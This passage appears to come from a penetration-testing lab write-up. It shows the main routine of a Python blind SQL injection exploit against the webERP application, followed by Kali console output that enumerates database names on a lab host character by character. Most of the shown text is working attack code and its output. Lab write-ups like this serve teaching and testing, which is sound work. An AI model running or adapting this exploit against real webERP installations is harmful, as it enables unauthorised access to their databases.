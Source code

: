 ```
    
    

if __name__ == "__main__":
    TOTAL_TIME =time.time()
    #proxies = {'http':'127.0.0.1:8080'}
    proxies = {}
    
    if len(sys.argv) != 6:
        print '(+) usage: %s <target> <path> <login> <password> <order>' % sys.argv[0]
        print '(+) eg: %s 127.0.0.1 "weberp/webERP/" admin weberp 1' % sys.argv[0]
        print 'Order means the number of company on the website. Can be gathered from the login page and usually equals 0 or 1'
        exit()

    ip = sys.argv[1] + "/" + sys.argv[2]
    cookies = getCookies(ip, sys.argv[5], sys.argv[3], sys.argv[4])
    addSupplierID("GARUMPAGE", cookies, proxies)
    
    chars = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ$_'
    namesOfDatabases = []
    numberOfDbs = 3;
    
    for i in range(numberOfDbs):
        currentDbName='0'
        if checkForDbName(i, 'information_schema'):
            namesOfDatabases.append('information_schema')
            print "Finally, database #"+str(i+1)+" on server: information_schema"
            continue;
        flagNoMoreChars = False
        while (not flagNoMoreChars):
            for j in range(len(chars)):
                currentDbName = currentDbName[:len(currentDbName)-1] + chars[j]
                if checkForDbName(i, currentDbName):
                    print "database #"+str(i+1)+" on server: " + currentDbName +"...";
                    currentDbName= currentDbName + '0'
                    flagNoMoreChars = False
                    break;
                else:
                    flagNoMoreChars = True
        currentDbName = currentDbName[:len(currentDbName)-1]
        print "Finally, database #"+str(i+1)+" on server: " + currentDbName
        namesOfDatabases.append(currentDbName)
    print "Databases: " + str(namesOfDatabases)
    print "TOTAL TIME = ", time.time() - TOTAL_TIME
    
```

We once again execute our modified exploit, and see the following output.

```
kali@kali:~/Desktop/sqliWebERp$ python sqli_dbNames.py 192.168.100.72 "weberp/" admin weberp 0
Finally, database #1 on server: information_schema
database #2 on server: i...
database #2 on server: in...
database #2 on server: ino...
database #2 on server: inoe...
database #2 on server: inoer...
database #2 on server: inoerp...
database #2 on server: inoerp_...
database #2 on server: inoerp_d...
database #2 on server: inoerp_db...
Finally, database #2 on server: inoerp_db
database #3 on server: w...
```